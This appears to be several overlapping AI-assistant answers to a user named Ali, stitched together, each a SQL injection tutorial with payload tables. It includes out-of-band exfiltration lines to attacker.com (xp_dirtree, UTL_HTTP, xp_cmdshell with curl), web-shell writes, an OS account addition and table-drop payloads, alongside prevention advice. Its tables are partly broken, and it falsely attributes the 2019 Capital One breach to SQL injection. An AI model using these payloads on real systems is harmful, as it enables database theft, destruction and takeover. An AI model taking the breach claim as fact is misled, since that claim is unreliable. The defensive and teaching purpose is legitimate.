


Alright Ali — let’s go **deep** into **SQL Injection (SQLi)** so you understand it from the absolute basics to advanced exploitation and defense. This will be a **full-spectrum guide** — concepts, types, examples, attack chains, and prevention.

---

## 📌 1. What is SQL Injection?

**SQL Injection** is a vulnerability that allows an attacker to **interfere with the queries** an application makes to its database.

- It happens when **untrusted user input** is concatenated directly into an SQL query without proper validation or parameterization.
- The attacker can **inject malicious SQL code** to:
  - Read sensitive data
  - Modify or delete data
  - Execute administrative operations
  - Sometimes even execute commands on the underlying OS

It’s one of the **OWASP Top 10** most critical web application security risks.

---

## 🛠 2. How SQL Injection Works

Imagine a login form:

```sql
SELECT * FROM users WHERE username = 'ali' AND password = '1234';
```

If the application builds this query like:

```php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "' AND password = '" . $_POST['password'] . "'";
```

An attacker could enter:

```
Username: ' OR '1'='1
Password: anything
```

The query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'anything';
```

`'1'='1'` is always true → returns all users → bypasses authentication.

---

## 🔍 3. Types of SQL Injection

### **A. In-Band SQLi** (most common)

Uses the same channel for injection and data retrieval.

- **Error-Based SQLi** : Forces the database to produce error messages revealing structure.
- **Union-Based SQLi** : Uses `UNION SELECT` to combine results from different queries.

Example:

```sql
' UNION SELECT username, password FROM users--
```

---

### **B. Blind SQLi**

No direct output — attacker infers data from application behavior.

- **Boolean-Based** : Changes in page content indicate true/false.

```sql
  ' AND 1=1--
  ' AND 1=2--
```

- **Time-Based** : Uses delays to confirm conditions.

```sql
  ' OR IF(1=1, SLEEP(5), 0)--
```

---

### **C. Out-of-Band SQLi**

Uses a different channel (HTTP/DNS) to exfiltrate data.

- Example:

```sql
'; EXEC xp_dirtree '\\attacker.com\share'--
```

→ Causes the DB to make a network request to attacker-controlled server.

---

## 🧪 4. Real-World Example

**2019 Capital One Breach** — misconfigured web app allowed SQLi → attacker accessed personal data of over 100 million customers.

---

## 🎯 5. Attack Chain

1. **Find input** that interacts with the database (URL params, forms, headers).
2. **Test for injection** with `'` or `"` to cause syntax errors.
3. **Identify DB type** (MySQL, MSSQL, Oracle, PostgreSQL).
4. **Extract data** using:
   - `UNION SELECT`
   - Error messages
   - Blind inference
5. **Escalate** — read/write files, execute OS commands (if DB supports it).

---

## 🛡 6. Prevention

### **Best Practices**

- **Parameterized Queries / Prepared Statements**

  Example in PHP (PDO):

  ```php
  $stmt = $pdo->prepare('SELECT * FROM users WHERE username = ? AND password = ?');
  $stmt->execute([$username, $password]);
  ```

- **Stored Procedures** (with care)
- **Input Validation** — allowlists for expected formats.
- **Least Privilege** — DB user should have minimal rights.
- **Error Handling** — show generic errors, log details internally.
- **Web Application Firewall (WAF)** — detect/block known patterns.

---

## 🏆 7. Advanced Exploitation Techniques

- **Second-Order SQLi** : Malicious input stored in DB and executed later in a different query.
- **Stacked Queries** : Multiple queries in one request (if DB supports `;`).
- **Bypassing Filters** :
- Using comments: `admin'--`
- Case changes: `UnIoN SeLeCt`
- Encoding: `%27` for `'`
- **Privilege Escalation** : Using SQLi to create new DB users with admin rights.
- **File Read/Write** : MySQL `LOAD_FILE()` or `SELECT ... INTO OUTFILE`.

---

## 📜 8. Quick Reference — Common Payloads

| Purpose            | Payload                                                            |
| ------------------ | ------------------------------------------------------------------ |
| Test for injection | `' OR '1'='1--`                                                    |
| Union select       | `' UNION SELECT null, version()--`                                 |
| DB enumeration     | `' UNION SELECT table_name, null FROM information_schema.tables--` |
| Blind boolean      | `' AND 1=1--`/`' AND 1=2--`                                        |
| Blind time-based   | `' OR IF(1=1, SLEEP(5), 0)--`                                      |

---

💡 **In short:**

SQL Injection is like slipping extra instructions into a waiter’s order to the kitchen — if the waiter doesn’t check, you can get anything you want from the kitchen, not just what’s on the menu. In security terms, it’s one of the most powerful and dangerous vulnerabilities because it can lead to **full database compromise** and often **full system compromise** .

---

Alright Ali — let’s go **all‑in** and break down **SQL Injection (SQLi)** from the absolute fundamentals to advanced exploitation, chaining, and defense.

This will be a **complete, structured deep dive** so you can see the whole picture — from how it works, to every type, to how attackers weaponize it, to how defenders stop it.

---

## 1️⃣ What is SQL Injection?

**SQL Injection** is when an attacker manipulates an application’s SQL queries by injecting malicious input into parameters that are sent to a database.

- It happens when **user input is directly concatenated** into an SQL statement without proper validation or parameterization.
- This lets the attacker **alter the query’s logic** — reading, modifying, or deleting data, and sometimes even executing OS‑level commands.

💡 **Why it’s dangerous:** SQLi can lead to **full database compromise** and often **full system compromise** .

---

## 2️⃣ How SQL Injection Works

Imagine a login form:

```php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "' AND password = '" . $_POST['password'] . "'";
```

If the attacker enters:

```
Username: ' OR '1'='1
Password: anything
```

The query becomes:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = 'anything';
```

`'1'='1'` is always true → returns all rows → bypasses authentication.

---

## 3️⃣ Types of SQL Injection

### **A. In‑Band SQLi** (same channel for injection & data retrieval)

- **Error‑Based SQLi** : Uses database error messages to extract data.

```sql
  ' AND EXTRACTVALUE(1, CONCAT(0x7e, version(), 0x7e))--
```

- **Union‑Based SQLi** : Uses `UNION SELECT` to combine results from different queries.

```sql
  ' UNION SELECT username, password FROM users--
```

---

### **B. Blind SQLi** (no direct output — infer from behavior)

- **Boolean‑Based** : True/false conditions change the page.

```sql
  ' AND 1=1--
  ' AND 1=2--
```

- **Time‑Based** : Delays response to confirm conditions.

```sql
  ' OR IF(1=1, SLEEP(5), 0)--
```

---

### **C. Out‑of‑Band (OOB) SQLi**

- Uses a different channel (DNS, HTTP) to exfiltrate data.
- Example (MSSQL):
  ```sql
  '; exec master..xp_dirtree '\\attacker.com\share'--
  ```

---

### **D. Advanced Variants**

- **Second‑Order SQLi** : Malicious input stored in DB, executed later in a different query.
- **Stacked Queries** : Multiple queries in one request (if DB supports `;`).
- **NoSQL Injection** : Similar concept in NoSQL databases (MongoDB, etc.).

---

## 4️⃣ Attack Chain

1. **Discovery** — Find input that interacts with the DB (forms, URL params, headers).
2. **Testing** — Inject `'` or `"` to cause syntax errors.
3. **Fingerprinting** — Identify DB type (MySQL, MSSQL, Oracle, PostgreSQL).
4. **Enumeration** — Extract schema info (`information_schema.tables`).
5. **Data Extraction** — Dump sensitive data.
6. **Privilege Escalation** — Create new DB users, read/write files, execute OS commands.

---

## 5️⃣ Common Payload Examples

| Goal               | Payload                                                            |
| ------------------ | ------------------------------------------------------------------ |
| Test for injection | `' OR '1'='1--`                                                    |
| Union select       | `' UNION SELECT null, version()--`                                 |
| List tables        | `' UNION SELECT table_name, null FROM information_schema.tables--` |
| Blind boolean      | `' AND 1=1--`/`' AND 1=2--`                                        |
| Blind time-based   | `' OR IF(1=1, SLEEP(5), 0)--`                                      |

---

## 6️⃣ Advanced Exploitation

- **Bypassing Filters** :
- Comments: `admin'--`
- Case changes: `UnIoN SeLeCt`
- Encoding: `%27` for `'`
- **Privilege Escalation** :
- MySQL: `SELECT ... INTO OUTFILE '/var/www/html/shell.php'`
- MSSQL: `xp_cmdshell 'net user hacker pass /add'`
- **File Read/Write** :
- MySQL: `LOAD_FILE('/etc/passwd')`
- **OS Command Execution** :
- MSSQL: `xp_cmdshell`
- PostgreSQL: `COPY ... FROM PROGRAM 'command'`

---

## 7️⃣ Prevention

### **Best Practices**

- **Parameterized Queries / Prepared Statements** :

```php
  $stmt = $pdo->prepare('SELECT * FROM users WHERE username = ? AND password = ?');
  $stmt->execute([$username, $password]);
```

- **Stored Procedures** (with care).
- **Input Validation** — allowlists for expected formats.
- **Least Privilege** — DB user should have minimal rights.
- **Error Handling** — generic messages to users, detailed logs internally.
- **WAF/IDS** — detect/block known SQLi patterns.

---

## 8️⃣ Detection

- **Manual Testing** — Inject payloads and observe behavior.
- **Automated Scanners** — sqlmap, Burp Suite, OWASP ZAP.
- **Log Analysis** — Look for suspicious query patterns.
- **Database Monitoring** — Detect unusual queries.

---

## 9️⃣ Real‑World Impact

- **Authentication bypass**
- **Data theft**
- **Data destruction**
- **Full system compromise**
- **Regulatory fines** (GDPR, HIPAA)

---

💡 **In short:**

SQL Injection is like slipping extra instructions into a waiter’s order to the kitchen — if the waiter doesn’t check, you can get anything you want from the kitchen, not just what’s on the menu.

From a pentester’s perspective, it’s one of the most powerful vulnerabilities because it can be chained into **RCE** , **data exfiltration** , and **full network compromise** .





# Comprehensive Overview of SQL Injection (SQLi)

---

## 1. What Is SQL Injection?

SQL Injection is a web security vulnerability that occurs when an application includes unsanitized user input in SQL queries, allowing attackers to manipulate the database logic to read, modify, or delete data, and in some cases execute operating system commands. Successful SQLi can lead to authentication bypass, data theft, data corruption, and even full system compromise.

---

## 2. Major Categories of SQL Injection

### 2.1 In-Band SQLi

The attacker uses the same communication channel to both inject malicious SQL and retrieve results. Two common subtypes are:

- Error-Based SQLi

  Leverages database error messages to glean information about table names, column names, and data types. By intentionally causing syntax or logical errors, the attacker extracts metadata from the database’s error responses.

- Union-Based SQLi

  Uses the SQL `UNION` operator to combine the results of the original query with results from attacker-controlled SELECT statements. The syntax requires matching column counts and compatible data types between queries.

---

### 2.2 Inferential (Blind) SQLi

No data is returned directly; the attacker infers information based on the application’s behavior or response time.

- Boolean-Based Blind SQLi

  Injects payloads that evaluate to true or false conditions. By observing differences in page content or HTTP status codes when the condition is true versus false, the attacker reconstructs data one bit at a time.

- Time-Based Blind SQLi

  Uses database functions that introduce a delay (e.g., `SLEEP()` in MySQL or `WAITFOR DELAY` in MSSQL). By measuring response delays, the attacker confirms true/false conditions and extracts data without visible output.

---

### 2.3 Out-of-Band (OOB) SQLi

When neither in-band nor blind techniques work—often due to restrictive output or network filtering—an alternate channel such as DNS or HTTP requests is used to exfiltrate data. The database is tricked into making network requests to attacker-controlled servers, carrying stolen data in the request payload or URL path.

---

### 2.4 Second-Order SQLi

Malicious input is stored in the database by one part of the application and later executed by another part. The injection doesn’t manifest immediately; it triggers when the stored data is concatenated into a query at a later time, often bypassing initial input filters.

---

### 2.5 Stacked Queries

Also known as piggy-backed queries, this technique executes multiple SQL statements in a single request (if the database supports statement stacking). For example, `id=1; DROP TABLE users;--` will first select record `1` and then drop the `users` table. Many modern databases disable stacking by default due to its high risk.

---

## 3. Common SQLi Attack Workflow

1. **Identify injectable input** (URL parameters, form fields, HTTP headers).
2. **Verify vulnerability** by injecting a single quote (`'`) or semicolon to cause a syntax error.
3. **Determine database type** (MySQL, MSSQL, Oracle, PostgreSQL) using version-specific functions like `version()`.
4. **Extract schema information** via `information_schema` tables or equivalent system catalogs.
5. **Dump data** using `UNION SELECT`, boolean/time-based techniques, or OOB channels.
6. **Escalate impact** through file read/write (`LOAD_FILE()`, `INTO OUTFILE`), OS command execution (`xp_cmdshell`), or user privilege creation.

---

## 4. Representative Payloads

| Technique                   | Example Payload                                                                              |
| --------------------------- | -------------------------------------------------------------------------------------------- |
| Test for injection          | `' OR '1'='1'--`                                                                             |
| Error-Based enumeration     | `' AND EXTRACTVALUE(1, CONCAT(0x7e, version(), 0x7e))--`                                     |
| Union-Based data extraction | `' UNION SELECT username, password FROM users--`                                             |
| Boolean-Based blind testing | `' AND (SELECT SUBSTR(password,1,1) FROM users LIMIT 1)='a'--`                               |
| Time-Based blind testing    | `' OR IF((SELECT COUNT(*) FROM users)>0, SLEEP(5), 0)--`                                     |
| OOB exfiltration            | `'; EXEC xp_dirtree '\\attacker.com\share'--`                                                |
| Second-Order injection      | Insert `1; DROP TABLE logs;--`into a comment field, later retrieved in an admin report query |
| Stacked queries             | `1; UPDATE users SET role='admin' WHERE id=1;--`                                             |

---

## 5. Prevention Strategies

- Use **parameterized queries** or **prepared statements** so user input never alters query structure.
- Employ **allowlist validation** for all inputs, restricting values to expected patterns or types.
- Configure the database user with **least privilege** , disallowing dangerous commands like `xp_cmdshell` or file-write operations.
- Implement robust **error handling** : display generic error messages to users and log detailed errors internally.
- Deploy a **Web Application Firewall (WAF)** or **Database Activity Monitoring (DAM)** to detect and block suspicious SQL patterns.

---

## 6. Detection and Testing Tools

- **Automated Scanners** : sqlmap, Burp Suite’s active scan, OWASP ZAP.
- **Manual Techniques** : Payload injection, response analysis, timing checks.
- **Log Monitoring** : Analyze database logs for unusual queries or repeated injection patterns.
- **Runtime Protection** : Use database firewalls and intrusion detection systems to flag anomalous queries.

---

Alright Ali — let’s go **deep** into each of these SQL Injection techniques so you have a **complete, structured, and practical** understanding of them, from the fundamentals to advanced exploitation details.

---

# **1️⃣ Error-Based Enumeration**

**Definition:**

Error-Based SQL Injection is when the attacker forces the database to generate an error message that **leaks data** directly in the response.

- Works only if **detailed DB errors** are displayed to the user.
- Very fast for enumeration because the DB itself returns the data.

**How it works:**

- Inject payloads that cause a deliberate error containing query results.
- Example (MySQL):

```sql
' AND EXTRACTVALUE(1, CONCAT(0x7e, database(), 0x7e))--
```

- Example (MSSQL):

```sql
' AND 1=CONVERT(int, (SELECT @@version))--
```

**Advantages:**

- Quick data extraction.
- Minimal requests needed.
- Easy to automate.

**Limitations:**

- Won’t work if error messages are suppressed.
- Often blocked in production environments.

---

# **2️⃣ Union-Based Data Extraction**

**Definition:**

Uses the SQL `UNION` operator to combine the results of the original query with attacker-controlled queries.

**How it works:**

1. Find the **number of columns** in the original query:

```sql
' ORDER BY 1--
' ORDER BY 2--
```

2. Match data types and inject:

```sql
' UNION SELECT null, version(), user()--
```

3. Replace `null` with desired data (tables, columns, sensitive info).

**Advantages:**

- Direct data retrieval in the same response.
- Works well if output is visible.

**Limitations:**

- Requires knowing column count and compatible data types.
- Output must be displayed somewhere in the app.

---

# **3️⃣ Boolean-Based Blind Testing**

**Definition:**

No direct output — attacker infers data by sending **true/false conditions** and observing differences in the application’s response.

**How it works:**

- Test condition:

```sql
' AND 1=1--   -- True → normal page
' AND 1=2--   -- False → different page/empty result
```

- Extract data bit-by-bit:

```sql
' AND SUBSTRING((SELECT database()),1,1)='a'--
```

**Advantages:**

- Works even with no error messages or visible output.
- Stealthier than error-based.

**Limitations:**

- Slower — requires many requests.
- Needs consistent response differences.

---

# **4️⃣ Time-Based Blind Testing**

**Definition:**

Uses **deliberate delays** to infer true/false conditions when no visible difference exists.

**How it works:**

- MySQL example:

```sql
' OR IF(SUBSTRING((SELECT database()),1,1)='a', SLEEP(5), 0)--
```

- MSSQL example:

```sql
'; IF (ASCII(SUBSTRING(DB_NAME(),1,1))=97) WAITFOR DELAY '0:0:5'--
```

- If the page takes 5 seconds longer to respond → condition is true.

**Advantages:**

- Works when no output and no visible page change.
- Reliable for blind extraction.

**Limitations:**

- Very slow.
- Network latency can cause false positives.

---

# **5️⃣ OOB (Out-of-Band) Exfiltration**

**Definition:**

Uses a **different channel** (DNS, HTTP, FTP) to send data to the attacker’s server.

**How it works:**

- MySQL DNS example:

```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT database()),'.attacker.com\\abc'));
```

- MSSQL example:

```sql
'; exec master..xp_dirtree '\\' + (SELECT name FROM master..sysdatabases) + '.attacker.com\share'--
```

- Attacker monitors their DNS/HTTP server for requests containing the data.

**Advantages:**

- Works in blind scenarios.
- Can bypass output restrictions.

**Limitations:**

- Requires outbound connectivity from the DB server.
- More complex setup.

---

# **6️⃣ Second-Order Injection**

**Definition:**

Malicious input is stored in the database and executed later when another part of the application uses it in a query.

**How it works:**

1. Attacker injects payload into a field that is stored (e.g., username, comment).
2. Later, an admin panel or another process retrieves that value and uses it unsafely in a query.
3. The stored payload executes at that later time.

**Example:**

- Step 1: Attacker registers with username:

```sql
test'); DROP TABLE users;--
```

- Step 2: Admin search query:

```sql
SELECT * FROM users WHERE username = 'test'); DROP TABLE users;--'
```

**Advantages:**

- Can bypass initial input validation.
- Hits unexpected parts of the app.

**Limitations:**

- Requires knowledge of how/when data is reused.

---

# **7️⃣ Stacked Queries**

**Definition:**

Executes multiple SQL statements in one request (if DB supports it) using a delimiter like `;`.

**How it works:**

- Example (PostgreSQL/MSSQL):

```sql
1; DROP TABLE users--
```

- First query runs normally, second query executes malicious action.

**Advantages:**

- Can perform multiple actions in one go.
- Useful for privilege escalation or persistence.

**Limitations:**

- Not supported by all DBs (MySQL often blocks by default).
- Easier to detect in logs.

---

## 🔑 Summary Table

| Technique           | Output?           | Speed  | Stealth | Requirements                    |
| ------------------- | ----------------- | ------ | ------- | ------------------------------- |
| Error-Based         | Yes               | Fast   | Low     | Errors visible                  |
| Union-Based         | Yes               | Fast   | Low     | Output visible, column match    |
| Boolean-Based Blind | No                | Medium | Medium  | Response difference             |
| Time-Based Blind    | No                | Slow   | Medium  | Time delay allowed              |
| OOB Exfiltration    | No (same channel) | Medium | High    | Outbound connectivity           |
| Second-Order        | Delayed           | Varies | High    | Stored data reused unsafely     |
| Stacked Queries     | Yes/No            | Fast   | Low     | DB supports multiple statements |

---

Got it, Ali — you want a **deep, neat, and complete breakdown** of how **every single character** in a SQL Injection payload can impact and influence the exploitation method.

This is important because in SQLi, **every symbol, space, and letter** can change how the database parses your query, how filters react, and whether your payload succeeds or fails.

Let’s go step-by-step.

---

## **1️⃣ Core Characters and Their Roles in SQLi**

| Character   | Name                                     | Primary Impact in SQLi                                                  | Example Use                                                    | Influence on Method                                                                         |     |     |     |
| ----------- | ---------------------------------------- | ----------------------------------------------------------------------- | -------------------------------------------------------------- | ------------------------------------------------------------------------------------------- | --- | --- | --- | --- | --- | --- |
| `'`         | Single Quote                             | Closes a string literal in SQL.                                         | `' OR '1'='1`                                                  | **Critical**for breaking out of quoted strings in error-based, union-based, and blind SQLi. |     |     |     |
| `"`         | Double Quote                             | Closes a string literal (in some DBs like PostgreSQL, MySQL ANSI mode). | `" OR "1"="1`                                                  | Similar to `'`, but DB-specific.                                                            |     |     |     |
| `--`        | Double Dash                              | SQL comment (MySQL, MSSQL). Ignores rest of query.                      | `' OR '1'='1'--`                                               | Used to terminate the injected query and comment out trailing syntax.                       |     |     |     |
| `#`         | Hash Comment                             | MySQL single-line comment.                                              | `' OR '1'='1'#`                                                | Alternative to `--`for MySQL; useful for filter evasion.                                    |     |     |     |
| `/* ... */` | Block Comment                            | Multi-line comment in SQL.                                              | `UN/**/ION/**/SELECT`                                          | Used for obfuscation and bypassing keyword filters.                                         |     |     |     |
| `;`         | Semicolon                                | Statement terminator.                                                   | `1; DROP TABLE users--`                                        | Enables stacked queries if DB supports multiple statements.                                 |     |     |     |
| `()`        | Parentheses                              | Group expressions, call functions, subqueries.                          | `AND (1=1)`                                                    | Used in boolean-based and time-based payloads for logical grouping.                         |     |     |     |
| `=`         | Equals                                   | Comparison operator.                                                    | `' OR username='admin`                                         | Core to boolean-based conditions.                                                           |     |     |     |
| `>` `<`     | Greater/Less Than                        | Comparison operators.                                                   | `id=5 OR id>1`                                                 | Useful for numeric-based inference.                                                         |     |     |     |
| `!`         | NOT                                      | Negates a condition.                                                    | `OR NOT 1=1`                                                   | Used to flip boolean logic.                                                                 |     |     |     |
| `           |                                          | `                                                                       | String Concatenation (Oracle, PostgreSQL) / Logical OR (MySQL) | Joins strings or acts as OR.                                                                |     |     |     |
| `+`         | String Concatenation (MSSQL) / Addition  | Joins strings or adds numbers.                                          | `'+'pass'+'`                                                   | Used in MSSQL for concatenating injected strings.                                           |     |     |     |
| `%`         | Wildcard (LIKE) / Modulus                | Pattern matching or math.                                               | `' OR username LIKE '%admin%'`                                 | Useful for partial matches in enumeration.                                                  |     |     |     |
| `_`         | Single-character wildcard in LIKE        | Pattern matching.                                                       | `LIKE 'a_dmin'`                                                | Helps bypass filters by matching unknown chars.                                             |     |     |     |
| `,`         | Comma                                    | Separates arguments in functions or lists.                              | `UNION SELECT 1,2,3`                                           | Required in UNION-based SQLi to match column count.                                         |     |     |     |
| `.`         | Dot                                      | Schema/table/column separator.                                          | `db_name.table_name`                                           | Used for fully qualified names in enumeration.                                              |     |     |     |
| `:`         | Parameter prefix (Oracle, PostgreSQL)    | Binds variables in prepared statements.                                 | `:username`                                                    | Rarely used in injection, but relevant in bypassing.                                        |     |     |     |
| `@`         | Variable prefix (MSSQL, MySQL user vars) | References variables.                                                   | `SELECT @@version`                                             | Used for extracting DB/system info.                                                         |     |     |     |
| `$`         | Variable prefix (PostgreSQL, MySQL)      | References variables or placeholders.                                   | `SELECT $version$`                                             | Useful in DB-specific injections.                                                           |     |     |     |     |     |     |

---

## **2️⃣ Influence on Specific SQLi Methods**

### **Error-Based Enumeration**

- **`'` / `"`** → Breaks out of strings to inject error-causing functions.
- **`--` / `#`** → Comments out rest of query to avoid syntax errors.
- **`()`** → Wraps functions like `EXTRACTVALUE()` or `CONVERT()`.

### **Union-Based Data Extraction**

- **`,`** → Matches column count in `UNION SELECT`.
- **`--` / `#`** → Ends injection cleanly.
- **`/*...*/`** → Obfuscates `UNION` or `SELECT` to bypass WAF.

### **Boolean-Based Blind**

- **`=` / `>` / `<`** → Compare extracted values.
- **`()`** → Group logical conditions.
- **`!`** → Negate conditions for testing.

### **Time-Based Blind**

- **`()`** → Wraps conditional logic in `IF()` or `CASE`.
- **`;`** → Ends statement before `SLEEP()` or `WAITFOR DELAY`.
- **`--`** → Comments out trailing syntax.

### **OOB Exfiltration**

- **`||` / `+`** → Concatenate data into DNS/HTTP requests.
- **`.`** → Build subdomains for DNS exfil.
- **`@`** → Use system variables in payloads.

### **Second-Order Injection**

- **All characters** matter because payload must survive storage and later execution — often requires **escaping** to avoid early execution.

### **Stacked Queries**

- **`;`** → Critical to separate queries.
- **`--` / `#`** → Comment out leftovers after second query.

---

## **3️⃣ Special Character Influence on Filter Evasion**

Attackers often manipulate characters to bypass WAFs or input filters:

- **Comment Injection** : `UN/**/ION` to bypass keyword detection.
- **Whitespace Bypass** : Replace spaces with `/**/`, `%0a`, `%09`, or `+`.
- **Case Variation** : `UnIoN SeLeCt` to bypass case-sensitive filters.
- **Encoding** : `%27` for `'`, `%2d%2d` for `--`.

---

## **4️⃣ Summary Table — Character Impact Matrix**

| Character   | Error-Based | Union-Based | Boolean-Based | Time-Based | OOB | Second-Order | Stacked |
| ----------- | ----------- | ----------- | ------------- | ---------- | --- | ------------ | ------- |
| `'`/`"`     | ✅          | ✅          | ✅            | ✅         | ✅  | ✅           | ✅      |
| `--`/`#`    | ✅          | ✅          | ✅            | ✅         | ✅  | ✅           | ✅      |
| `/*...*/`   | ⚠           | ✅          | ⚠             | ⚠          | ✅  | ✅           | ⚠       |
| `;`         | ⚠           | ⚠           | ⚠             | ✅         | ✅  | ✅           | ✅      |
| `()`        | ✅          | ✅          | ✅            | ✅         | ✅  | ✅           | ⚠       |
| `=`/`>`/`<` | ⚠           | ⚠           | ✅            | ✅         | ⚠   | ⚠            | ⚠       |
| `,`         | ⚠           | ✅          | ⚠             | ⚠          | ⚠   | ⚠            | ⚠       |
| `           |             | `/`+`       | ⚠             | ⚠          | ⚠   | ⚠            | ✅      |
| `%`/`_`     | ⚠           | ⚠           | ✅            | ⚠          | ⚠   | ⚠            | ⚠       |
| `@`/`$`     | ⚠           | ⚠           | ⚠             | ⚠          | ✅  | ⚠            | ⚠       |

✅ = Commonly used

⚠ = Sometimes used / context-dependent

---

Certainly! SQL injection (SQLi) is a broad category of attacks where malicious SQL queries are injected into an application's database layer. These attacks can be classified into several types based on their behavior and exploitation techniques. Below is a detailed breakdown of **every kind of SQL injection**:

---

### **1. Classic SQL Injection (In-Band SQLi)**

These are the most straightforward types where the attacker retrieves data directly from the database in the application's response.

#### **A. Error-Based SQL Injection**

- **Description**: The attacker forces the database to generate error messages that reveal sensitive information (e.g., table names, SQL structure).
- **Example**:
  ```sql
  ' OR 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--
  ```
- **Exploitation**: Errors like `Conversion failed` might leak table names.

#### **B. Union-Based SQL Injection**

- **Description**: The attacker uses the `UNION` operator to combine results from multiple `SELECT` statements into a single response.
- **Example**:
  ```sql
  ' UNION SELECT username, password FROM users--
  ```
- **Prerequisite**: The number of columns in the `UNION` must match the original query.

---

### **2. Blind SQL Injection (Inferential SQLi)**

The attacker cannot see the results directly but infers information based on behavioral differences.

#### **A. Boolean-Based Blind SQLi**

- **Description**: The application returns different responses (e.g., true/false) based on injected conditions.
- **Example**:
  ```sql
  ' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='admin')='a'--
  ```
- **Exploitation**: The attacker tests character-by-character (e.g., "Is the first letter 'a'?").

#### **B. Time-Based Blind SQLi**

- **Description**: The attacker induces delays (e.g., `SLEEP(5)`) to confirm conditions.
- **Example (MySQL)**:
  ```sql
  ' AND IF(1=1, SLEEP(5), 0)--
  ```
- **Exploitation**: A delayed response indicates a true condition.

---

### **3. Out-of-Band SQL Injection**

The attacker exfiltrates data via external channels (e.g., DNS, HTTP requests) when direct retrieval isn't possible.

#### **A. DNS Exfiltration**

- **Description**: Data is leaked via DNS lookups triggered by the database.
- **Example (Oracle)**:
  ```sql
  ' || UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT password FROM users WHERE username='admin'))--
  ```
- **Exploitation**: The attacker monitors DNS logs for leaked data.

#### **B. HTTP Exfiltration**

- **Description**: Data is sent to an attacker-controlled server via HTTP requests.
- **Example (MSSQL)**:
  ```sql
  '; EXEC xp_cmdshell('curl http://attacker.com/?data='+(SELECT password FROM users))--
  ```

---

### **4. Second-Order SQL Injection**

- **Description**: Malicious input is stored in the database and later executed in a different context (e.g., user registration → admin panel).
- **Example**:

  ```sql
  Username: admin'--
  Password: password
  ```

  Later, an admin query like `UPDATE users SET role='admin' WHERE username='admin'--'` executes the payload.

---

### **5. Stacked Queries (Batch SQLi)**

- **Description**: The attacker injects multiple SQL statements separated by semicolons (`;`).
- **Example**:
  ```sql
  '; DROP TABLE users;--
  ```
- **Note**: Not all databases support stacked queries (e.g., MySQL with `mysqli` typically doesn’t).

---

### **6. Content-Based SQL Injection**

- **Description**: The attacker manipulates the application's content (e.g., JSON, XML) to inject SQL.
- **Example**:
  ```json
  { "username": "admin'--", "password": "password" }
  ```

---

### **7. NoSQL Injection**

- **Description**: Targets NoSQL databases (e.g., MongoDB) using JSON/query syntax.
- **Example (MongoDB)**:
  ```json
  { "username": { "$ne": "" }, "password": { "$ne": "" } }
  ```
- **Exploitation**: Bypasses authentication by querying for non-empty fields.

---

### **Mitigation Techniques**

1. **Prepared Statements/Parameterized Queries**:
   ```python
   cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
   ```
2. **Stored Procedures**: Encapsulate SQL logic in the database.
3. **Input Validation/Sanitization**: Whitelist allowed characters.
4. **Least Privilege**: Restrict database user permissions.
5. **WAFs**: Deploy Web Application Firewalls to filter malicious payloads.

---

### **Summary Table**

| Type                    | Method                            | Example Payload                                           |
| ----------------------- | --------------------------------- | --------------------------------------------------------- |
| **Error-Based**         | Exploits error messages           | `' OR 1=CONVERT(int, (SELECT @@version))--`               |
| **Union-Based**         | Uses `UNION` to merge queries     | `' UNION SELECT 1, username, password FROM users--`       |
| **Boolean-Based Blind** | Tests true/false conditions       | `' AND (SELECT SUBSTRING(password,1,1) FROM users)='a'--` |
| **Time-Based Blind**    | Induces delays                    | `' AND IF(1=1, SLEEP(5), 0)--`                            |
| **Out-of-Band**         | Exfiltrates via external channels | `'; EXEC xp_cmdshell('nslookup attacker.com')--`          |
| **Second-Order**        | Stored input executed later       | Username:`admin'--`                                       |
| **Stacked Queries**     | Executes multiple statements      | `'; DROP TABLE users;--`                                  |

Would you like a deeper dive into any specific type or its exploitation?
